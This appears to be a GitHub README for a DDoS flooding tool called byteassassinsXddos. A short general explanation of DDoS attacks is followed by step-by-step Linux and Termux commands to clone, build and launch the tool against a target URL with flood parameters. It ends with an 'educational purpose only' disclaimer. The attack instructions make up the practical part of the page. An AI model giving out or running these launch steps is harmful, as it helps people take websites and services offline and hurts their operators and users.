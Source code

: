 # byteassassinsXddos
  

# DDoS Attack Meaning
DDoS Attack means "Distributed Denial-of-Service (DDoS) Attack" and it is a cybercrime in which the attacker floods a server with internet traffic to prevent users from accessing connected online services and sites.

Motivations for carrying out a DDoS vary widely, as do the types of individuals and organizations eager to perpetrate this form of cyberattack. Some attacks are carried out by disgruntled individuals and hacktivists wanting to take down a company's servers simply to make a statement, have fun by exploiting cyber weakness, or express disapproval.

Other distributed denial-of-service attacks are financially motivated, such as a competitor disrupting or shutting down another business's online operations to steal business away in the meantime. Others involve extortion, in which perpetrators attack a company and install hostageware or ransomware on their servers, then force them to pay a large financial sum for the damage to be reversed.

DDoS attacks are on the rise, and even some of the largest global companies are not immune to being "DDoS'ed". The largest attack in history occurred in February 2020 to none other than Amazon Web Services (AWS), overtaking an earlier attack on GitHub two years prior. DDoS ramifications include a drop in legitimate traffic, lost business, and reputation damage.

As the Internet of Things (IoT) continues to proliferate, as do the number of remote employees working from home, and so will the number of devices connected to a network. The security of each IoT device may not necessarily keep up, leaving the network to which it is connected vulnerable to attack. As such, the importance of DDoS protection and mitigation is crucial.

# How DDoS Attacks Work

A DDoS attack aims to overwhelm the devices, services, and network of its intended target with fake internet traffic, rendering them inaccessible to or useless for legitimate users.







# setup for linux!=>👾


`sudo apt update`

`sudo apt upgrade`

`git clone https://github.com/Sumitshah00/byteassassinsXddos.git`

`cd byteassassinsXddos`

`sudo apt install golang`

`go build byteassassinsXddos.go`

`./byteassassinsXddos https://example.com 5000 get 1200 nil`


![image](https://github.com/Sumitshah00/byteassassinsXddos/assets/149252561/2bbf01b7-f1c9-4851-8637-8a894d2042a2)



# and Here are the commands you can run in Termux to achieve the same tasks:~



`pkg update`

`pkg upgrade`

`git clone https://github.com/Sumitshah00/byteassassinsXddos.git`

`cd byteassassinsXddos`

`pkg install golang`

`go build byteassassinsXddos.go`

`./byteassassinsXddos https://example.com 5000 get 1200 nil`



![image](https://github.com/Sumitshah00/byteassassinsXddos/assets/149252561/2b7301fa-c0ba-458a-b433-80cfccaa67c4)


########################################
# Educational purpose only             #
########################################
# I'm not responsible for your actions #
########################################
